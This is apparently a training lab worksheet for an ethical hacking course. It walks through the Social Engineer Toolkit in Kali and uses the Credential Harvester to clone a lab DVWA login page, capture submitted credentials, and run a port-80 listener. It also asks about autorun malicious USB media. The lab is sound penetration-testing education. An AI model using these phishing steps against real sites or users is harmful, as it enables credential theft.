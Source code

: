 # Lab - Explore the Social Engineer Toolkit (SET)

## Objectives
Many exploits begin with a social engineering attack designed to obtain credentials or plant malware to create entry points into the target network. One of the tools used to perform these social engineering attacks is the Social Engineer Toolkit (SET), developed by David Kennedy.

### Tasks
- Launching SET and exploring the toolkit
- Cloning a website to obtain user credentials
- Capturing and viewing user credentials

## Background / Scenario
In this activity, you will clone a website and obtain user credentials. This activity is performed under carefully controlled conditions within a virtual environment. SET tools should only be used for penetration testing in situations where you have written permission to perform social engineering exploits.

In an actual penetration test, this procedure could be used to reveal problems with user security training and the need to take measures to educate users about various types of phishing attacks.

## Required Resources
- Kali VM customized for Ethical Hacker course
- Internet access

## Instructions

### Part 1: Launching SET and Exploring the Toolkit

#### Step 1: Load the SET application.

1. Start Kali Linux using the username `kali` and the password `kali`.
2. Open a terminal session from the menu bar at the top of the screen.
3. SET must be run as root. Use the `sudo -i` command to obtain persistent root access. 
4. At the prompt, enter the command `setoolkit` to load the SET menu system. The Social Engineering Toolkit can also be run from the Applications > Social Engineering Tools > social engineering toolkit (root) choice on the Kali menu.

```bash
┌──(kali㉿Kali)-[~]
└─$ sudo -i
[sudo] password for kali:
┌──(root㉿Kali)-[~]
└─# setoolkit
```
If this is the first time that you have run SET, the license terms and conditions are displayed, and an agreement is required. Read the terms carefully.

After reading the disclaimer, enter y to accept the terms of service. The Social-Engineer Toolkit is designed purely for good and not evil. If you are planning on using this tool for malicious purposes that are not authorized by the company you are performing assessments for, you are violating the terms of service and license of this toolset. By hitting yes (only one time), you agree to the terms of service and that you will only use this tool for lawful purposes only.

Do you agree to the terms of service [y/n]: y

The initial SET menu is displayed, as shown:

   The Social-Engineer Toolkit is a product of TrustedSec.
 
            Visit: https://www.trustedsec.com 
   It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!
 
Select from the menu:
   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About
   99) Exit the Social-Engineer Toolkit
   **set>**

   ### Step 2: Examine the Available Social-Engineering Attacks

At the SET prompt, enter `1` and press Enter to access the Social-Engineering Attacks submenu.

```bash
set> 1
```
Select from the menu:
   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules
 
  99) Return back to the main menu.
Select each option to see a brief description of each exploit and what the tool does for each.

Note: Some options may not have a choice. In that case, use CTRL-C or enter 99 to return to the main menu.

Which option creates a DVD or USB thumb drive that will autorun malicious software when inserted into the target device?
Answer Area

<!----><!---->
How could this functionality be used in a penetration test?
Answer Area

<!----><!---->
You are now ready to begin the web site cloning exploit.

### Part 2: Cloning a Website to Obtain User Credentials

In this part of the lab, you will create a perfect copy of the login page for a website. The fake login page will gather all credentials submitted to it and then redirect the user to the real website.

#### Step 1: Investigate Web Attack Vectors in SET

From the Social-Engineering Attacks submenu, choose `2) Website Attack Vectors` to begin the web site cloning exploit.

```bash
set> 2
```
Review the brief attack description of each type of attack.

#### Which type of attack will you choose to create a cloned website to obtain login credentials for users on the target network?
**Answer Area**  
<!----><!---->

Select `3) Credential Harvester Attack Method` from the menu. A description of the ways to configure this exploit is displayed.

#### Which method enables you to use a custom website for the exploit that you create?
**Answer Area**  
<!----><!---->

#### Step 2: Clone the DVWA.vm Login Screen

In this step, you will create a cloned website that duplicates the DVWA.vm login website. The SET application creates a website hosted on your Kali Linux computer. When the target users enter their credentials in the cloned website, the credentials and the users will be redirected to the real website without being aware of the exploit. This is similar to an on-path attack.

1.  In this lab, we are using the internal website hosted on the DVWA.vm virtual machine. To see what the website looks like, open the Kali Firefox browser, and enter the URL **http://DVWA.vm/**. The login screen will appear. If the URL is not found, enter http://10.6.6.13/ to access the web server using its IP address.
    

What is the URL of the login screen?Answer Area

1.  Return to the terminal session. Select **2) Site Cloner** from the **Credential Harvester Attack Method** menu. Information describing which IP address is needed to host the fake website and to receive the POST data is displayed. Enter the web attacker IP address at the prompt. This is the IP address of the virtual Kali internal interface on the 10.6.6.0/24 network. In an actual exploit, this would be the external (internet facing) address of the attack computer.
    
2.  At the prompt, enter the IP address **10.6.6.1**.
    

`   set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.0.2.15]:10.6.6.1   `

1.  Next, enter the URL of the website that you want to clone. This is the URL of the DVWA website, **http://DVWA.vm**.
    

`   [-] SET supports both HTTP and HTTPS   `

`   [-] Example: http://www.thisisafakesite.com   `

`set:webattack> Enter the url to clone:http://DVWA.vm` 

`   [*] Cloning the website: http://DVWA.vm   `

P`   [*] This could take a little bit...   `

1.  When the website is cloned, the following message appears on the terminal.
    

`   The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.   `

`   [*] The Social-Engineer Toolkit Credential Harvester Attack   `

`   [*] Credential Harvester is running on port 80   `

`   [*] Information will be displayed to you as it arrives below:   `

**Note**: No prompt will be returned to you. This is because a listener is now active on port 80 on the Kali computer and all port 80 traffic will be redirected to this screen. Do not close the terminal window. Continue to Part 3.


